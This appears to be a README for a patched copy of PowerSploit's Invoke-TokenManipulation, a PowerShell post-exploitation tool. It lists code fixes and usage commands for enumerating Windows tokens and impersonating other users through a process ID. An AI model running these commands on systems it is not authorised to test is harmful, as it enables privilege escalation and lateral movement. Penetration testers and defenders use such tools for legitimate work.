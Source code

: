 # Invoke-TokenManipulation
## Foreword
Heavily inspired by
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
- https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/

I changed some lines, as the original kept crashing my powershell session because one Buffer was too small. However, this script should work.
## Changes
```
Before: [UInt32]$PrivilegeNameSize = 60
After:  [UInt32]$PrivilegeNameSize = 100


Before:  $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress') 
After:   $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
```


## Examples
Load into current process
```
. .\Invoke-TokenManipulation.ps1
```

List Tokens in Memory
```
# All tokens that may be used for network authentication
Invoke-TokenManipulation -Enumerate

# All tokens
Invoke-TokenManipulation -ShowAll
```

Impersonate User of ProcessID
```
Invoke-TokenManipulation -ImpersonateUser -ProcessId 1376 -Username "DOMAIN\USERNAME"
Invoke-TokenManipulation -ImpersonateUser -ProcessId 1376
```

Show current Token of current Process
```
Invoke-TokenManipulation -WhoAmI
```


Revert Token Change in current Process
```
Invoke-TokenManipulation -RevToSelf
```

